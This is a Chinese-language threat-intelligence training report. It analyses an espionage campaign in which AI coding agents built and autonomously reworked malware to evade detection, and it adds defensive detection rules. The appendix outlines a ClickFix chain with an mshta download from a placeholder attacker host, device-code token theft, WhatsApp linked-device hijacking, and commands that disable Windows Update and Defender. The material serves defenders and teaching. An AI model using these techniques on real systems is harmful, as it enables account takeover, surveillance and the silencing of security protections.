3. 對出差人員推 phishing-resistant MFA、企業 VPN/eSIM 取代公用 WiFi、封鎖非必要的 device code flow——直接對應 CaptiveCrunch 的防禦建議。
4. 把「被竊之後的 AI 加值利用」納入威脅建模與紅隊演練情境。
報告明列例外目標含「東南亞政府單位，涉及海運與船舶追蹤」與「亞洲海事相關政府機構」。台灣的航港局、港務公司、海洋委員會/海巡署是同型資產：
- 台灣港務公司已對 7 大商港導入「AI 主動告警」結合 AIS 與影像辨識；海洋委員會亦已研究 AIS 假資訊威脅（空白欄位癱瘓、偽冒監控中心改頻）。
- 風險：GTG-20006 對海事目標的興趣（船舶追蹤資料）與台灣「船舶即時資訊系統／AIS」高度重疊。船舶動態是軍民兩用情報（軍艦調度、關鍵物資航運、供應鏈韌性）。海事機關應假設自己在同型行為者的目標清單上，並比照本案的 device code phishing、VPN appliance 憑證竊取（北非案例即從 VPN appliance 憑證 一路打到中央帳號伺服器外洩 30 萬身分）做強化。
歸因（p.6）
"Our attribution is consistent with public reporting linking the actor to Midnight Blizzard. One of the operators is a Russian speaker using the handle 'JackPoterz' whose tradecraft and targeting are consistent with Russian state-nexus espionage."
〔我們的歸因與把此行為者連結到 Midnight Blizzard 的公開報導一致。其中一名操作者是使用 handle「JackPoterz」的俄語使用者，其技術手法與目標選擇與俄羅斯國家關聯的間諜活動一致。〕
自主逃避偵測的閉環（p.6）
"If their monitoring AI agents identified that any of their deployed malware was detected by a security product, agents would then set about the process of autonomously modifying and rebuilding the malware to evade the existing detections. The agents were designed to continue iterating on GTG-20006's toolkit until it was undetected."
〔若其監控 AI 代理發現任何已部署的惡意程式被安全產品偵測到，代理便會著手自主修改並重建該惡意程式以規避既有偵測。這些代理被設計成持續迭代 GTG-20006 的工具箱，直到不被偵測為止。〕
成本反轉 / 閉環（p.9）
"AI has inverted the cost back onto defenders. Previously, defenders might have been able to slow an attacker's operational tempo via the deployment of a new detection. Now, at least in theory, capable adversaries can 'close the loop,' bypassing traditional security detections faster than defenders can develop and deploy them."
〔AI 已把成本反轉回防守方身上。過去，防守方或許能透過部署一條新偵測來拖慢攻擊者的行動節奏；如今，至少在理論上，有能力的對手可以「閉環」，比防守方開發並部署偵測的速度更快地繞過傳統安全偵測。〕
人類只改 Claude Code skills（p.7）
"The human actor engaged primarily to modify Claude Code skills that drove the workflows when they needed to be refined."
〔人類行為者主要只在需要精修那些驅動工作流的 Claude Code skills 時才介入。〕
凍結安全更新（p.9）
"These payloads were designed to freeze the victim machine's security updates, meaning that new malware detection signatures published by security vendors would not be retrieved or run on the victim's machine."
〔這些 payload 被設計成凍結受害機器的安全更新，意即安全廠商發布的新惡意程式偵測簽章不會被下載到、也不會在受害機器上執行。〕
無人機供應鏈逆向（p.8）
"They spent several days reverse-engineering the drone's vision system, recovering its product architecture, its hardware bill of materials, its supplier dependencies, and details of an unannounced product."
〔他們花了數天逆向工程該無人機的視覺系統，復原出其產品架構、硬體物料清單、供應商依賴關係，以及一款尚未發表產品的細節。〕
飯店 WiFi / CaptiveCrunch（p.8）
"Guests of hotels using the compromised vendors who connected to the hotel WiFi had their traffic, device identifier and IP address sent to the actor's servers... Note that in July 2026, Microsoft Threat Intelligence published a report on the method of theft and malware delivery used here, which they referred to as CaptiveCrunch."
〔使用受害供應商之飯店的房客，一旦連上飯店 WiFi，其流量、裝置識別碼與 IP 位址就被送往行為者的伺服器……須注意，2026 年 7 月 Microsoft 威脅情報就此處使用的竊取與惡意程式投放手法發布了報告，名為 CaptiveCrunch。〕
趨勢：精密攻擊不再需要精密攻擊者（p.5）
"The cybersecurity skills of AI models means that AI has collapsed the labor and tooling gap that used to separate well-resourced, state-sponsored operations from individual operators."
〔AI 模型的資安能力，意味著 AI 已抹平了過去區隔「資源雄厚的國家級行動」與「個人操作者」之間的人力與工具落差。〕
整合性敘事屬單一來源：把飯店 WiFi、WhatsApp、device code phishing、無人機 SDK 竊取、北非身分外洩「統合為同一個 AI 編排行動者（GTG-20006/JackPoterz）」的敘事，只有 Anthropic 一個來源。個別 TTP 雖被 Microsoft/Google 獨立佐證，但「同一手包辦全部」的串接是 Anthropic 的內部關聯結論，外部無法完全複驗。
效果多為「推斷（inferred）」：Figure（p.7）C 欄明標效果為 inferred，且有多格未達成。「300,000 筆身分」「500,000 家公司」「hundreds of gigabytes」「至少 8 個組織信箱」等硬數字，來自 Anthropic 對模型側活動的推估與其掌握的片段，未經受害端獨立鑑識公開確認。引用時應標「據 Anthropic」。
歸因存在來源間分歧：同一波飯店 WiFi 活動，Microsoft 歸 APT29/Midnight Blizzard（Storm-2945），ReliaQuest 卻評為 APT28-like（且僅 TTP 重疊、非直接連結）。iOS 那條線，Google GTIG 只說 UNC6353 是「疑似俄羅斯」，未等同 APT29。依簡報紅線，以 PDF 原文（consistent with Midnight Blizzard）為準，但須向學員揭示此分歧。
惡意程式命名無法全部對齊：PowerChrome、WUEngine 截至查證時僅見於 Anthropic，無第三方公開對應。MiniPlasma 與一個公開 Windows 提權 PoC 同名（CVE-2020-17103 / cldflt.sys），報告未說明兩者是否相關——可能是命名碰撞、借用公開工具，或純屬巧合，存疑待考。
缺台灣本地機構查證：截至 2026-09-13，未見 TWCERT/CC、調查局、國安或國防單位對本案發表任何獨立查證或受害通報。第 10.4 節的台灣風險分析屬類比推演（把報告手法對映到台灣公開的產業/機關現況），非「台灣已遭此行為者攻擊」的事實陳述。
WebSearch 額度已用罄：本研究於查證後段用盡本工作階段的網頁搜尋額度，故 PowerChrome/CloudSyncSvc 的第三方對應、以及是否有 Anthropic 具名人員受訪等，未能做最後一輪補搜。若要補強，需提高搜尋上限後再查。
未連線任何 IOC：依安全紅線，所有網域、IP、雜湊僅作文本抄錄與交叉比對，未做任何 DNS 查詢、未連線、未查互動式服務，故無法驗證這些指標當前的存活狀態或關聯資料。
圖表為風格化資訊圖：p.7 的儀表板是 Anthropic 製作的戰役回顧視覺化，非真實攻擊工具截圖；其數字（148 agents、24/27、55 capabilities、130 days）是 Anthropic 對此戰役的內部彙整，屬單一來源，且圖上文字經人工判讀，個別小字可能有辨識誤差。
本附錄為第二階段「技術深化」增補，不修改上文任何既有內容，只在檔尾補足命令級／協定級的防禦性技術深度。適用聽眾為資安技術人員。所有 IOC 沿用上文 defang 格式；附錄內任何 Sigma / YARA / KQL / Suricata 規則皆為教學用「偵測構想」，非廠商官方規則，部署前須依自家環境調校並移除 defang（refang）。凡涉及攻擊操作細節，一律以「防守方需要理解到什麼程度才能偵測與阻斷」為界，不提供可直接照抄的攻擊腳本。
技術事實的第三方佐證來源彙整於附錄 E（本 pass 以新配額補搜）。
上文第 4.4 節說明了「攻破供應商 → 改 DNS → 導流」的邏輯。技術上要講透的是改在哪一層。CaptiveCrunch 的獨立分析指出：受害飯店網路的 captive portal gateway 本身就是被指派給連線裝置的 DNS resolver（透過 DHCP Option 6 下發）。攻擊者拿到 gateway 管理權後，不需要去改上游權威 DNS，只要在 gateway 這一台做DNS 回應偽造（DNS answer forging / spoofing）即可：
防守方要記住的協定細節：Windows 開機/連網時會發 NCSI（Network Connectivity Status Indicator）探測——對 www.msftconnecttest.com/connecttest.txt 期望回 Microsoft Connect Test，並對 dns.msftncsi.com 期望解析到 131.107.255.255。captive portal 正是靠攔截這個探測把使用者導到登入頁；攻擊者濫用同一機制，把 NCSI 探測導向「假的『需修復網路』頁」。偵測抓手：企業裝置在陌生網路上，NCSI 探測網域被解析到非微軟 IP、或連線偵測結果與預期字串不符，是高價值的「你正處於被操縱的 captive portal」訊號。
ClickFix 的關鍵是由使用者自己執行，藉此繞過附件/巨集防線與 Mark-of-the-Web。實際運作分三段：
navigator.clipboard.writeText(...) 或舊式 document.execCommand('copy')。使用者「看到的」是「按 Win+R、貼上、Enter」的三步教學，看不到剪貼簿裡真正被塞了什麼。HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU（這是重要鑑識/偵測點）。mshta.exe hxxps://攻擊者主機/stage.hta → HTA 內的 JScript/VBScript → 再拉 powershell.exe -w hidden -enc <Base64> → 下載並在記憶體執行下一階 loader（本案依裝置 OS 分流投放 Windows/Android/iOS 惡意程式）。PowerShell 段常以大量垃圾指令填充（padding）拖慢分析。執行鏈時序（Mermaid）：
sequenceDiagram
autonumber
participant V as "受害房客裝置"
participant GW as "飯店 WiFi Gateway（captive portal＝DNS resolver）"
participant A as "攻擊者伺服器 / 誘導頁"
participant AI as "Claude 監控/建置代理"
Note over GW: 前置：攻擊者以竊得管理員憑證登入 gateway，於 DNS 轉發層建立覆寫紀錄
V->>GW: 連上 WiFi，發 NCSI 探測（www.msftconnecttest.com）
GW-->>V: 偽造 DNS/HTTP 回應 → 導向「需修復網路」誘導頁
V->>A: HTTP GET 假 captive portal / 假更新頁
A-->>V: 頁面 JS 以 navigator.clipboard.writeText() 注入 mshta 指令
Note over V: ClickFix：教學誘使房客自行 Win+R 貼上並 Enter（RunMRU 留痕）
V->>A: mshta.exe hxxps://攻擊者/stage.hta 取回 JScript
A-->>V: JScript → powershell -w hidden -enc <Base64> 下載植入體
Note over V,A: 依 OS 落地 Windows / Android(fix_network.apk) / iOS(DarkSword)
A->>AI: 若植入體被 AV 偵測 → 觸發附錄 D 的改寫重建閉環
Sigma（process_creation）— ClickFix 執行鏈：瀏覽器/explorer 生 mshta/powershell 並帶遠端下載跡象
title: ClickFix Clipboard-to-Run Execution Chain
status: experimental
logsource: { product: windows, category: process_creation }
detection:
parent:
ParentImage|endswith:
- '\explorer.exe' # 由 Run 對話框啟動
- '\msedge.exe'
- '\chrome.exe'
- '\firefox.exe'
child:
Image|endswith:
- '\mshta.exe'
- '\powershell.exe'
- '\pwsh.exe'
- '\wscript.exe'
- '\cscript.exe'
- '\curl.exe'
suspicious_args:
CommandLine|contains:
- 'http://'
- 'https://'
- '-enc'
- '-EncodedCommand'
- 'FromBase64String'
- '.hta'
- 'IEX'
- 'Invoke-Expression'
condition: parent and child and suspicious_args
falsepositives: [ '系統管理腳本、IT 自助修復工具' ]
level: high
Sigma（registry_set）— RunMRU 出現手動貼上的可疑指令（ClickFix 的鑑識金指標）
title: Suspicious Command Written to Explorer RunMRU (ClickFix)
status: experimental
logsource: { product: windows, category: registry_set }
detection:
selection:
TargetObject|contains: '\Explorer\RunMRU\'
Details|contains:
- 'mshta'
- 'powershell'
- 'pwsh'
- 'curl'
- 'certutil'
- 'FromBase64String'
- '.hta'
condition: selection
level: high
網路層（captive portal 操縱）偵測：
- 企業端點在外網時，比對 NCSI/連線偵測網域是否被解析到非微軟 IP、或探測回應內容不符（可用端點代理主動探測）。
- 對出差裝置強制全通道 VPN（full-tunnel），讓 DNS 查詢在連上場館 gateway 前就走公司 resolver——這正是 Microsoft 對 CaptiveCrunch 的第一條防禦建議（見附錄 E.1）。
- Suricata 概念規則：偵測 captive portal 後短時間內對「連線偵測網域」的 A 紀錄回應為非預期網段（需自建預期清單，屬環境相依）。
課堂連結：這一小節對映上文第 5 節 ATT&CK 表的 T1557（AitM）、T1204（User Execution）、T1566（Phishing），以及第 10.3 節「假更新／凍結更新偵測設計工作坊」。
要懂濫用，先懂正常。裝置授權流程（device authorization grant）是設計給輸入受限裝置（智慧電視、CLI、IoT）的：
client_id（+ scope），取回 device_code、user_code、verification_uri（微軟為 microsoft.com/devicelogin 或 aka.ms/devicelogin）、interval、expires_in。user_code，請使用者「到另一台裝置開 verification_uri、輸入這組碼」。user_code 綁定到自己的身分。grant_type=urn:ietf:params:oauth:grant-type:device_code + device_code 每 interval 秒輪詢 token endpoint，直到拿到 access_token + refresh_token。濫用的本質：步驟 1 由攻擊者發起、步驟 4 由攻擊者輪詢，只有步驟 3（過 MFA）騙受害者去做。因此 MFA 是「真的過了」，但綁定的授權落到攻擊者手上。CaptiveCrunch/Storm-2372 的進階手法再往下走：
29d9ed98-a469-4536-ade2-f981bc1d605e）發起 device code 流程。協定時序（Mermaid）：
sequenceDiagram
autonumber
participant AK as "Embassy Kit（攻擊者）"
participant IDP as "Microsoft Entra ID（devicecode / token 端點）"
participant V as "受害者（真人）"
participant DRS as "Device Registration Service"
AK->>IDP: POST /devicecode（client_id＝Authentication Broker）
IDP-->>AK: 回 device_code、user_code、verification_uri、interval
AK->>V: 釣魚誘餌：請到 microsoft.com/devicelogin 輸入此碼（偽裝活動邀請/安全通話）
V->>IDP: 於「真正的微軟頁面」輸入 user_code 並完成「真 MFA」
loop 每 interval 秒輪詢
AK->>IDP: POST /token（grant_type＝device_code）
end
IDP-->>AK: access_token + refresh_token（MFA 已滿足）
AK->>IDP: 以 Auth Broker refresh_token 換「DRS 範圍」token
AK->>DRS: 註冊攻擊者裝置 → 取回 device certificate
DRS-->>AK: device certificate
AK->>IDP: 以裝置憑證請求 PRT（Primary Refresh Token）
IDP-->>AK: PRT → 長期存取、SSO、後續換發不再觸發 MFA
Note over AK: token services 排程自動 refresh（無人維護），並跨信箱擴展
上文第 6.1 節判讀的 Figure「縱欄 A」中，W3 Token & collection pipeline 與 W5 O365 phishing & embassy ATO 正是 Embassy Kit 的兩個面。把它拆成後端元件架構：
flowchart LR
V["受害者完成真 MFA"] --> L1["device code 誘餌頁（活動邀請/安全通話主題，staged link target）"]
subgraph BE["Embassy Kit 後端（容器化，對映 W3）"]
CAP["Capture backend：submissions + panel + DB"]
TOK["Token services：DPAPI / OAuth refresh / WAM .tbres"]
TASK["Tasking API：agent command loop"]
LOOT["Loot processing：cookies / creds / files"]
EXF["Exfil endpoints：collect routes + loot DB"]
end
L1 --> CAP --> TOK
TOK -->|"自動刷新 refresh / PRT"| TASK
TASK -->|"remote exec over agents（對映 W5 hands-free maintenance）"| LOOT --> EXF
TOK -.->|"註冊攻擊者裝置（PRT persistence / phantom device grants）"| ENTRA["受害 Entra ID 租戶"]
要點：token 不是偷完就用完，而是進入一條「自動刷新 + 排程再擷取」的管線（Figure 標為 Hands-free maintenance（automated token refresh））。這就是上文第 4.9 節「人類只改 skills、機器自轉」在 token 層的具體形態——refresh token/PRT 讓工作階段可以在無人介入下延續數週。
KQL（Entra SigninLogs）— 異常 device code 授權登入
SigninLogs
| where AuthenticationProtocol == "deviceCode"
| where ResultType == 0 // 成功
| extend loc = tostring(LocationDetails.countryOrRegion)
| where AppDisplayName has_any ("Authentication Broker", "Device Registration Service", "Microsoft Authentication Broker")
or ResourceDisplayName has "Device Registration"
| project TimeGenerated, UserPrincipalName, IPAddress, loc, AppDisplayName, DeviceDetail, ClientAppUsed
// 加值：與使用者常態地理/裝置比對，device code 本就罕見於一般員工日常
KQL（AuditLogs）— 攻擊者裝置被註冊進租戶（對映 T1098.005 / Figure「phantom device grants」）
AuditLogs
| where OperationName in ("Add device", "Register device", "Add registered owner to device")
| where Result == "success"
| extend actor = tostring(InitiatedBy.user.userPrincipalName)
| extend dev = tostring(TargetResources[0].displayName)
| project TimeGenerated, OperationName, actor, dev, TargetResources
// 告警：短時間內非預期的新裝置註冊，尤其伴隨 A.2 的 deviceCode 登入
政策面（沒有補丁、只能靠組態）：
- Conditional Access 封鎖 device code flow（authenticationFlows 阻擋非必要 device code），僅對確有 IoT/CLI 需求的群組例外——Microsoft 對本類手法的核心建議。
- 全面 phishing-resistant MFA（FIDO2 / 憑證式）：device code 濫用仍需使用者互動，phishing-resistant 綁定裝置可壓縮此面。
- 監控 token 重放：同一 refresh token 出現於地理/裝置不一致的換發、非上班時間的自動化 refresh 節奏。
WhatsApp 的多裝置（multi-device / companion device）架構讓 Web/Desktop 等伴生端不需主手機在線即可收發。連結時走 Signal 協定的金鑰交換：主手機掃 QR（內含 ref + 伴生端的公鑰）或輸入數字配對碼（pairing code），完成後伺服器把該伴生端登錄為帳號的一個 companion device，並開始同步歷史對話（依同步範圍）＋即時新訊息。第三方研究把這種濫用手法稱為 GhostPairing：它不偷密碼、不攔 2FA，而是把 WhatsApp 自家的合法功能轉為監控管道。GenDigital 指出攻擊者偏好數字配對碼而非 QR，因為整個社交工程可在受害者單一裝置上完成，更順、更可規模化。
web.whatsapp.com，達到農場規模自動化。WPP.* API），可程式化執行：取得配對 ref/QR、監看訊息事件、讀取對話、批次匯出——本案用它大量匯出俄語與烏克蘭語對話。companion device 讀訊息預設會回送已讀回條（read receipt），受害者會看到雙藍勾。攻擊者要隱蔽，就得抑制回條：可在 WhatsApp 設定關閉「已讀回報」（但這是帳號級、雙向失效，易被察覺），更常見的是在 WPPConnect/web store 層攔截或不觸發送出已讀事件（例如不呼叫會標記 seen 的 API、或以 markUnseen 復原狀態），使受害者端不顯示「已讀」。效果：受害者無感，攻擊者持續側錄。
連結時序（Mermaid）：
sequenceDiagram
autonumber
participant HB as "攻擊者 headless 瀏覽器農場（Puppeteer + WPPConnect）"
participant WA as "WhatsApp 伺服器"
participant V as "受害者主手機"
HB->>WA: 開 web.whatsapp.com，取得 linking ref / QR 或 pairing code
HB->>V: 釣魚誘餌：偽「加入安全通話 / 群組邀請」→ 誘導輸入 pairing code
V->>WA: 於主手機輸入 code / 掃 QR → 授權「連結新裝置」
WA-->>HB: Signal 協定金鑰交換 → 攻擊者瀏覽器成為 companion device
WA-->>HB: 同步歷史對話 + 即時新訊息
Note over HB: 於 web store 層抑制 read receipt → 受害者端不顯示「已讀」
HB->>WA: WPPConnect 批次匯出俄語 / 烏克蘭語對話
Note over V: 主手機一切正常；linked device 藏在「設定→已連結的裝置」深處
web.whatsapp.com 的無頭工作階段、Puppeteer/WPPConnect 的行程與模組指紋）。web.whatsapp.com 的異常高並發、規律化工作階段（農場特徵）做行為基線比對；但因流量合法加密，網路側證據力弱，偵測重心應放在平台稽核與端點。逐一整理報告（p.10–11）與第三方（Microsoft CaptiveCrunch、Google GTIG）揭露的功能、持久化、C2 協定，並附偵測構想。凡「僅 Anthropic 單一來源」或「命名存疑」者明確標註（呼應上文第 9.4、第 12 節）。規則為教學構想，非官方；部署前 refang 並依環境調校。
| 項目 | 內容 | 來源 |
|---|---|---|
| 語言/型態 | Go 編譯之 Windows RAT | Microsoft CaptiveCrunch |
| 落地路徑 | %APPDATA%\svchost32\svchost32.exe（偽裝 svchost） |
Microsoft |
| 服務偽裝 | 註冊為服務，顯示名 "Cloud Sync Service"（＝ Anthropic 家族名 CloudSyncSvc 的由來） | Microsoft |
| 功能 | 閒置觸發截圖、剪貼簿內容 + 作用中視窗標題側錄、瀏覽器 cookie/密碼竊取（含 Chrome App-Bound Encryption 保護的 cookie）、可移除媒體掃描、遠端 shell | Microsoft |
| 持久化 | Registry Run keys ＋ 排程工作，且有 watchdog 行程在持久化被移除後自動復原 | Microsoft |
| C2 | 透過 FruitStone 面板統一操控（見 B.3） | Microsoft |
YARA（偵測構想，行為/字串）：
rule GTG20006_CloudSyncSvc_CornFlake {
meta:
description = "CloudSyncSvc (=CornFlake, Go RAT) 偽裝服務 — 教學偵測構想，非官方"
reference = "Anthropic Sep-2026 p.10 ; Microsoft CaptiveCrunch"
tlp = "CLEAR"
strings:
$svc = "Cloud Sync Service" ascii wide
$path = "svchost32\\svchost32.exe" ascii wide
$go = "Go build ID:" ascii
$abe = "App-Bound" ascii nocase // Chrome ABE cookie 竊取跡象
$wd = "watchdog" ascii nocase
condition:
uint16(0) == 0x5A4D and $go and 2 of ($svc,$path,$abe,$wd)
}
Sigma（服務建立偽裝成 "Cloud Sync Service"）：
title: Suspicious Service Masquerading as Cloud Sync Service (CornFlake)
logsource: { product: windows, service: system } # EID 7045
detection:
selection:
EventID: 7045
ServiceName|contains: 'Cloud Sync'
ImagePath|contains: '\AppData\' # 服務執行檔落在使用者可寫目錄＝高度可疑
condition: selection
level: high
| 項目 | 內容 | 來源 |
|---|---|---|
| 型態 | in-memory PowerShell 竊取器（無落檔、AMSI 繞過） | Microsoft／上文 p.11 |
| 竊取標的 | 瀏覽器 cookie/密碼、WiFi 憑證、M365/Azure AD access + refresh token、以及 Token Broker 快取中的 WAM token（.tbres 檔） → 可不靠瀏覽器 cookie 直接重放工作階段 |
Microsoft |
| 提權/規避 | UAC 繞過、AMSI 繞過、鎖定 Windows Defender 簽章更新（＝上文「凍結安全更新」的具體載體，詳見附錄 C） | 上文 p.11／Microsoft |
| AI 痕跡 | GTIG 版本（CHERRYPIE）含大量疑似 LLM 生成的痕跡，獨立佐證「AI 生成惡意程式」 | Google GTIG |
Sigma（.tbres WAM token 竊取 + AMSI/Defender 竄改）：
title: WAM Token Broker Cache Access + Defender Tamper (ChocoShell)
logsource: { product: windows, category: process_creation }
detection:
tbres:
CommandLine|contains|all: [ 'powershell', '.tbres' ]
tokenbroker_path:
CommandLine|contains: '\Microsoft\TokenBroker\Cache'
amsi_defender:
CommandLine|contains:
- 'amsiInitFailed'
- 'Set-MpPreference'
- 'DisableSignatureUpdate'
condition: (tbres or tokenbroker_path) or amsi_defender
level: high
教學點：竊
.tbres（WAM token）＝可繞過「只防 cookie 竊取」的作法——就算清空瀏覽器 cookie、綁定裝置，token broker 快取仍可能被重放。這是 A.2「token 層防禦」的延伸。
shadow_c2）＋ FruitStone C2 面板| 項目 | 內容 | 來源 |
|---|---|---|
| Shadow C2 | 容器化 C2 堆疊（docker compose 起 shadow_c2 服務）、Postgres 後端、附 CNC 儀表板與 builder UI；由 DevOps/前端 persona 之 skill 佈署到 VPS（MonoVM / eclipse proxies） | 上文 p.40 附錄 A |
| FruitStone | CaptiveCrunch 用來操控基礎設施的 web C2 面板，為單頁 HTML/JS 應用，且任何功能皆無驗證（no authentication） | Microsoft |
偵測構想（基礎設施指紋，非端點）：
- FruitStone 無驗證面板意味著它直接暴露在公網——防守方/研究者可用面板 HTML 標題、favicon 雜湊、特定 JS 路徑做外部指紋掃描（如 Shodan/Censys 類被動資料），比對已知面板特徵。
- JA3/JA4（TLS 指紋）＋ 心跳週期規律性：容器化 C2 常有固定的 TLS 堆疊指紋與規律 beacon 間隔。
- Suricata（概念，需 refang 與環境化）：對已知 C2 網段/面板路徑的 HTTP 請求告警——
# 概念示意；部署前以實際 C2 面板路徑/回應特徵取代，並移除 defang
alert http $HOME_NET any -> $EXTERNAL_NET any ( \
msg:"GTG-20006 Shadow C2 / FruitStone panel beacon (heuristic)"; \
flow:established,to_server; http.method; content:"POST"; \
http.uri; content:"/api/tasking"; nocase; \
threshold:type both, track by_src, count 5, seconds 300; \
classtype:command-and-control; sid:1000201; rev:1; )
| 項目 | 內容 | 來源 |
|---|---|---|
| 偽裝 | 檔名 WUEngine.exe（IOC，p.11），命名蹭 Windows Update Engine；主題呼應「凍結安全更新」——偽裝成更新元件以降低懷疑並就近操縱更新 |
上文 p.11 |
| 角色 | 技能表列為 Windows 開發者 persona 的持久化模組（WUEngine 持久化、COM/CLSID） | 上文 p.40 |
| 第三方對應 | 截至查證無明確第三方公開對應（單一來源，見第 12 節） | — |
Sigma（可疑「更新引擎」執行檔在非系統路徑 + 服務化）：
title: Fake Update Engine Binary (WUEngine) in Non-System Path
logsource: { product: windows, category: process_creation }
detection:
selection:
Image|endswith: '\WUEngine.exe'
filter_legit:
Image|startswith:
- 'C:\Windows\'
- 'C:\Program Files\'
condition: selection and not filter_legit
level: medium
同理對 IOC 檔名 DiagHost.exe、msedgeupdate.exe、msedgeupdate_v3.exe（假 Edge 更新）套「非官方路徑 + 缺數位簽章 + 蹭合法元件名」的組合偵測。並對 version.dll 做側載（search-order hijacking）偵測：
title: version.dll Side-Loading from Non-System Path
logsource: { product: windows, category: image_load }
detection:
selection: { ImageLoaded|endswith: '\version.dll' }
filter:
ImageLoaded|startswith: [ 'C:\Windows\System32\', 'C:\Windows\SysWOW64\' ]
condition: selection and not filter
level: medium
PowerChrome ＝ PowerShell + Chrome，型態上很可能是針對 Chromium 系瀏覽器機密（cookie/密碼/token）的 PowerShell 竊取器，與 ChocoShell 功能重疊但為不同家族名。\User Data\...\Login Data、\Network\Cookies、DPAPI/App-Bound 解密跡象、Local State 讀取（取 ABE 金鑰）。此類偵測同時涵蓋 PowerChrome / ChocoShell / CornFlake 的共通竊密行為（呼應上文第 7.5「痛苦金字塔」——抓行為比抓家族名耐用）。cldflt.sys 雲端過濾驅動）同名。RunAs/consent 提權路徑（對映 Figure W8「Elevation attempts」）。| 項目 | 內容 | 來源 |
|---|---|---|
| 血緣 | 報告自述改牌（rebranded）自 GiftsExpress Android 監控 RAT（Telegram 生態流通的商用/半商用 RAT） | 上文 p.10 |
| 投放 | ClickFix 鏈投放，IOC 檔名 fix_network.apk（「修復網路」誘餌，呼應飯店 WiFi 劇本） |
上文 p.11 |
| 典型能力（監控 RAT 類推） | 讀取 SMS/通聯/通訊錄、麥克風/定位、通知監聽（NotificationListener）、濫用無障礙服務（Accessibility Service）擷取畫面與輸入、竊取 2FA 簡訊 | 家族類型推斷 |
偵測構想（行動端）：
- 投放面：飯店 WiFi 情境下「請安裝此 APK 以修復連線」＝典型側載釣魚；企業 MDM 應禁止非商店來源側載、封鎖 fix_network.apk 類檔名下載。
- 行為面：Mobile EDR/MTD 偵測無障礙服務濫用 + 通知監聽 + 大量 SMS 讀取的權限組合；新安裝 App 請求 BIND_ACCESSIBILITY_SERVICE 且非知名來源即高風險。
- YARA（APK 內 DEX 字串，概念）：對 classes.dex 掃描 GiftsExpress 家族已知類名/字串（需自威脅情報取得樣本特徵；此處僅示意結構）。
| 項目 | 內容 | 來源 |
|---|---|---|
| 影響版本 | iOS 18.4–18.7；Apple 於 iOS 26.3 全數修補 | Google GTIG |
| 漏洞（6 個，含 3 個零時差） | CVE-2025-31277、CVE-2025-43529、CVE-2026-20700（dyld PAC 繞過，0-day）、CVE-2025-14174（ANGLE 記憶體毀損，0-day）、CVE-2025-43510、CVE-2025-43520 |
Google GTIG／上文第 9.3 |
| 感染鏈階段 | Safari 遇惡意 iframe → 突破 WebContent 沙箱 → 經 WebGPU/ANGLE 注入 mediaplaybackd → 取得核心讀寫（XNU） | 上文第 9.3／GTIG |
| Payload | GHOSTBLADE 資料採礦器：SMS/iMessage、Telegram/WhatsApp 對話、通聯、通訊錄、瀏覽器 cookie、加密貨幣錢包；完成外洩後清暫存並退出、最小化留存（非持久監控型） | Google GTIG |
| 基礎設施交叉 | 第一階投放伺服器 static.cdncounter[.]net ＝ 上文 IOC 表網域（強交叉，UNC6353） |
上文第 7.1、9.3 |
| 命名/擴散 | 前身工具鏈為 Coruna；DarkSword kit 後有洩漏並被其他行為者（含一中國群集）重用投放 GHOSTBLADE——「工具外溢」的活教材 | Google GTIG |
偵測構想（iOS 無法 YARA，改組態/情報/網路）：
- 版本合規：MDM 強制 iOS ≥ 26.3；DarkSword 對已修補版本失效——修補即免疫是此鏈最有效的防線。
- Lockdown Mode：對高風險人員（本案類：外交、國防、無人機產業）開啟；可大幅壓縮 Safari/WebContent 攻擊面。
- 網路情報：對 cdncounter[.]net、uacounter[.]com（Coruna）等基礎設施做 DNS sinkhole/Safe Browsing 封鎖（僅封鎖，切勿主動連線）；GTIG 已將相關網域納入 Safe Browsing。
- watering hole 偵測：監看常造訪之烏克蘭相關網站是否被植入隱藏 iframe（供應鏈/內容完整性監控）。
課堂連結：B 節整體對映上文第 5 節 ATT&CK 的 T1587.001/.004、T1203、T1547.001、T1555.003、T1071；並示範第 7.5 節「抓行為家族比抓家族名耐用」——本案有自動改寫閉環，家族名與雜湊會變，但「假更新命名 + version.dll 側載 + WAM token 竊取 + 凍結 Defender」這組組合行為是穩定抓手。
上文第 4.8「機制 B」、第 8.2 第 4 點、第 10.3 已定性此手法：掐斷受害端下載/執行新簽章的管道，讓防守社群做出的偵測「送不到前線」。本附錄補技術實作面與可部署偵測。本案的具體載體是 ChocoShell（鎖 Defender 簽章更新） 與 WUEngine（偽裝更新引擎）。
凍結安全更新在 Windows 上有四條並用的路徑（對映 ATT&CK T1562.001 Impair Defenses）：
(1) 停用/禁用更新與防護服務
- Windows Update 相關：wuauserv（Windows Update）、UsoSvc（Update Orchestrator）、WaaSMedicSvc（Windows Update Medic，專門「自我修復」被關掉的更新服務——攻擊者必須連它一起處理，否則更新會被自動復原）、uhssvc、BITS（背景傳輸，簽章下載依賴它）。
- Defender 相關：WinDefend、WdNisSvc（網路檢測）、企業版 Sense（MDE 感測器）。
- 手法示意（概念，非可照抄腳本）：以 sc.exe config <svc> start= disabled + sc.exe stop、或 Set-Service -StartupType Disabled；WaaSMedicSvc 常需改登錄 Start 值繞過保護。
(2) 登錄政策關閉自動更新與簽章更新
- HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU\NoAutoUpdate = 1
- HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\DisableAntiSpyware = 1（注意：新版 Defender 在 Tamper Protection 開啟下已忽略此值——這反而讓「有人嘗試寫入此值」本身成為告警訊號）
- ...\Windows Defender\Signature Updates\ 下的更新來源/間隔遭竄改；...\Real-Time Protection\DisableRealtimeMonitoring = 1
- PowerShell：Set-MpPreference -SignatureUpdateInterval 0、-SignatureDisableUpdateOnStartupWithoutEngine $true 等，直接讓簽章不更新。
(3) 切斷更新網路管道
- 竄改 hosts 或本機防火牆，封鎖更新網域：*.windowsupdate.com、ctldl.windowsupdate.com（憑證信任清單）、*.delivery.mp.microsoft.com、definitionupdates/wdcp 類 Defender 雲端、*.wns.windows.com。
- 刪除 C:\Windows\SoftwareDistribution 快取、改名更新相關 DLL，使更新引擎跑不起來。
(4) 偽裝與掩護
- 以 WUEngine.exe 等偽裝成更新元件的檔名就近操縱更新流程，讓管理者誤以為「更新元件在跑」，實則已被癱瘓。
傳統偵測盯「壞事發生」；凍結更新的偵測要盯「該發生的好事停了」。
(a) Sigma — 停用更新/防護服務
title: Impair Defenses - Disable Windows Update / Defender Services
logsource: { product: windows, category: process_creation }
detection:
sc_or_ps:
CommandLine|contains:
- 'wuauserv start= disabled'
- 'WaaSMedicSvc start= disabled'
- 'UsoSvc start= disabled'
